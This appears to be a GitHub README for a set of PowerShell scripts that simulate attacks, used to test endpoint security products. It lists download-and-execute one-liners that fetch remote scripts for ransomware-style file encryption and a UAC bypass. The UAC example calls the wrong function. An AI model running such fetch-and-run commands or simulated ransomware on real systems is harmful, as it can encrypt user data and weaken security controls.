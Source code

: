 # Vendor Simulator Test Scripts

I decided to create the following repository of scripts that can be executed on production environment.
Many customers are using different BAS products with the intention to validate existing EDR vendors.
BAS products can be expensive and hard to comprehend. They also operate within the concept of IOC in mind and mostly do not trigger attack events.

The scripts are created with a mission to validate the prevention capabilities of existing endpoint security solutions.
In most cases, i tried to focus on stealthy and advanced behaviour.

The scripts can be executed on production envirenmnet. 

**Example:**

## Ransomware techniques:

### Encryption - 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';`

### Decryption - 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';`

## User Account Control Bypass (UAC) 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-UAC1.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';`

## Antimalware Scan Interface (AMSI) 